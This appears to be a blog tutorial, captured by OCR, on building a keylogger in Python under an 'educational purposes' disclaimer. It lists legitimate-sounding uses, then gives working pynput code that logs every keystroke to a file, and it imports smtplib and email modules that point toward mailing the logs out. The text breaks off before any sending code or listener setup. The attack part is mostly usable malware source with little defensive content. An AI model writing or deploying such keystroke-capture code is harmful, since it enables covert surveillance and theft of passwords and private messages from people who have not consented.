 ```yaml
---
title: "Building a Keylogger in Python"
date: "2024-01-12"
category: "Malware Analysis"
tags: ["python", "tools", "malware"]
excerpt: "Educational tutorial on creating a keylogger using Python. Learn how these tools work to better defend against them in cybersecurity."
---
```


# Building a Keylogger in Python

**Disclaimer**: This tutorial is for educational purposes only. Understanding how keyloggers work helps security professionals better defend against them. Only use this knowledge in authorized environments.

## What is a Keylogger?

A keylogger is software that records keystrokes made by a user. While often associated with malicious activities, keyloggers have legitimate uses in:

- Parental monitoring
- Employee productivity tracking
- Personal backup of typed content
- Security research and testing

## Basic Keylogger Implementation

### Required Libraries
```python
import pynput
import logging
import os
import smtplib
from email.mime.text import MIMEText
from datetime import datetime
```

### Simple Keylogger
```python
from pynput import keyboard
import logging

# Configure logging
logging.basicConfig(filename="keylog.txt", level=logging.DEBUG, format='%(message)s')

def on_press(key):
    try:
        # Log alphanumeric keys
        logging.info(f'{key.char}')
    except AttributeError:
        # Log special keys
        if key == keyboard.Key.space:
            logging.info(' ')
        elif key == keyboard.Key.enter:
            logging.info('\n')
        elif key == keyboard.Key.backspace:
            logging.info('[BACKSPACE]')
        else:
            logging.info(f'[{key}]')

```